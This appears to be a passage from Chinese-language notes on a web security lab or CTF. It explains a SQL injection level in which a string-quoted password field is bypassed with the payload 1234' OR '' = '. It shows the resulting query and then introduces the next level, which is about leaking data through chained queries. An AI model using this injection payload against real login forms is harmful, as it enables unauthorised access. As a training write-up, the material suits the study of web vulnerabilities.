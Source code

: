 

## 分析与思路

跟11题很像。

这里发生变化的地方是，password是字符串而不是数字。

注入即可

![image-20241105155827986](./2%20Web%20Security.assets/image-20241105155827986.png)

## exp

admin

1234' OR '' = '

注意，这里是单引号，因为在sql语句中就是用单引号包裹这两个参数。

```sql
DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1234' OR '' = ''"
这是debug信息，真正的sql语句就是：
SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1234' OR '' = ''
```



# 13-SQLi 3

## 问题描述

> This level will require you to figure out how to chain SQL queries in order to leak data. Good luck!
